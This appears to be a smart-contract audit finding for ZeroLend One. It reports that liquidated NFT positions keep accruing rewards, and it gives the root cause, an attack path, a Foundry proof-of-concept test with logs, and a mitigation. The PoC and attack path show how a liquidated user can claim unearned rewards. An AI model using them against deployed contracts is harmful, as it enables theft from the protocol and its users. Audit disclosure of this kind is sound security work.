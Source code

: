 Soft Rose Cod

High

# Liquidated positions will still accrue rewards after being liquidated

### Summary

The NFTRewardsDistributor contract which is responsible for managing a users rewards using a masterchef algorithm does not get updated with a users underlying position in a pool is liquidated.  This results in the position wrongfully continuing to accrue rewards with an outdated asset balance.

### Root Cause

The choice to neglect updating the NFTPositionManager contract when a position is liquidated is the root cause of this issue due to the NFTPositionManager contract not containing up-to-date user balances for calculating rewards.

```solidity
  function earned(uint256 tokenId, bytes32 _assetHash) public view returns (uint256) {
    return _balances[tokenId][_assetHash].mul(rewardPerToken(_assetHash).sub(userRewardPerTokenPaid[tokenId][_assetHash])).div(1e18).add(
      rewards[tokenId][_assetHash]
    );
  }
```
The above calculations are done in `NFTRewardsDistributor.sol:98` to determine an NFT positions rewards. Due to this bug, the users balance ```_balances[tokenId][_assetHash]``` will be incorrect, leading to overinflated rewards.
https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/positions/NFTRewardsDistributor.sol#L98C1-L102C4
### Internal pre-conditions

1. User needs to have a position NFT registered with the NFTPositionManager contract
2. The NFTPositionManager needs to have rewards accrual enabled for there to be any impact
3. The users NFT position needs to be liquidated due to their position being unhealthy

### External pre-conditions

1. Users collateral assets need to drop in enough in price to make their position liquidatable
2. Any user needs to liquidate the users position

### Attack Path

1. User creates a position
2. The NFTPositionManager contract will start accruing rewards for the user
3. The users position's collateral drops in price enough to make their position unhealthy
4. The user gets liquidated
5. The user will continue to accrue rewards pertaining to their NFT's position for as long as they wish because the NFTPositionManager believes they are still providing collateral and borrowing assets. 
6. The user withdraws their accrued rewards whenever they wish

### Impact

The liquidated user will essentially be able to steal rewards from the protocol/other users since their position won't be backed by any collateral.

### PoC

```solidity
  function test_UserAccruesRewardsWhileLiquidatedBug() public {
    NFTPositionManager _nftPositionManager = new NFTPositionManager();
    TransparentUpgradeableProxy proxy = new TransparentUpgradeableProxy(address(_nftPositionManager), admin, bytes(''));
    nftPositionManager = NFTPositionManager(payable(address(proxy)));
    nftPositionManager.initialize(address(poolFactory), address(0x123123), owner, address(tokenA), address(wethToken));

    uint256 mintAmount = 100 ether;
    uint256 supplyAmount = 1 ether;
    uint256 tokenId = 1;
    bytes32 REWARDS_ALLOCATOR_ROLE = keccak256('REWARDS_ALLOCATOR_ROLE');

    //approvals
    _mintAndApprove(owner, tokenA, 30e18, address(nftPositionManager));
    _mintAndApprove(alice, tokenA, 1000 ether, address(pool)); // alice 1000 tokenA
    _mintAndApprove(bob, tokenB, 2000 ether, address(pool)); // bob 2000 tokenB
    _mintAndApprove(bob, tokenA, 2000 ether, address(pool)); // bob 2000 tokenB

    //grant the pool some rewards
    vm.startPrank(owner);
    nftPositionManager.grantRole(REWARDS_ALLOCATOR_ROLE, owner);
    nftPositionManager.notifyRewardAmount(10e18, address(pool), address(tokenA), false);
    vm.stopPrank();


    DataTypes.ExtraData memory data = DataTypes.ExtraData(bytes(''), bytes(''));
    INFTPositionManager.AssetOperationParams memory params =
      INFTPositionManager.AssetOperationParams(address(tokenA), alice, 550 ether, tokenId, data);
    INFTPositionManager.AssetOperationParams memory params2 =
      INFTPositionManager.AssetOperationParams(address(tokenB), bob, 750 ether, 2, data);
    INFTPositionManager.AssetOperationParams memory params3 =
      INFTPositionManager.AssetOperationParams(address(tokenA), bob, 550 ether, 2, data);
    INFTPositionManager.AssetOperationParams memory borrowParams =
      INFTPositionManager.AssetOperationParams(address(tokenB), alice, 100 ether, tokenId, data);

    vm.startPrank(alice);
    tokenA.approve(address(nftPositionManager), 100000 ether);
    tokenA.approve(address(pool), 100000 ether);
    nftPositionManager.mint(address(pool));
    nftPositionManager.supply(params);
    console.log("Alice deposits %e of token A", params.amount);
    vm.stopPrank();

    vm.startPrank(bob);
    tokenB.approve(address(nftPositionManager), 100000 ether);
    tokenA.approve(address(nftPositionManager), 100000 ether);
    tokenB.approve(address(pool), 100000 ether);
    nftPositionManager.mint(address(pool));
    nftPositionManager.supply(params2);
    nftPositionManager.supply(params3);
    console.log("Bob deposits %e of token A", params3.amount);
    vm.stopPrank();

    vm.prank(alice);
    nftPositionManager.borrow(borrowParams);


    bytes32 assetHashA = nftPositionManager.assetHash(address(pool), address(tokenA), false);
    bytes32 pos = keccak256(abi.encodePacked(nftPositionManager, 'index', uint256(1)));
    console.log("\nAlice rewards earned before liquidation: %e", nftPositionManager.earned(1, assetHashA));
    console.log("Bob rewards earned before Alice is Liquidated: %e\n", nftPositionManager.earned(2, assetHashA));
    oracleA.updateAnswer(3e5);
    vm.prank(bob);
    console.log("Bob liquidates Alice");
    pool.liquidateSimple(address(tokenA), address(tokenB), pos, 550 ether);
    console.log("Skip ahead until end of rewards cycle...");
    vm.warp(block.timestamp+14 days);

    console.log("\nAlice rewards earned after liquidation: %e", nftPositionManager.earned(1, assetHashA));
    console.log("Bob rewards earned after Alice is liquidated: %e", nftPositionManager.earned(2, assetHashA));
    console.log("Alice rewards equal to Bob rewards: ", nftPositionManager.earned(1, assetHashA) == nftPositionManager.earned(2, assetHashA));

  }
```
#### Logs
Output:
  Alice deposits 5.5e20 of token A
  Bob deposits 5.5e20 of token A

  Alice rewards earned before liquidation: 0e0
  Bob rewards earned before Alice is Liquidated: 0e0

  Bob liquidates Alice
  Skip ahead until end of rewards cycle...

  Alice rewards earned after liquidation: 4.99999999999953585e18
  Bob rewards earned after Alice is liquidated: 4.99999999999953585e18
  Alice rewards equal to Bob rewards:  true

The PoC shows that even though Alice was liquidated, she continued to accrue the same amount of rewards as Bob over the time period.

### Mitigation

When necessary, the liquidation function should callback to the NFT position contract to update the liquidated users position with the contract so they don't continue to accrue rewards.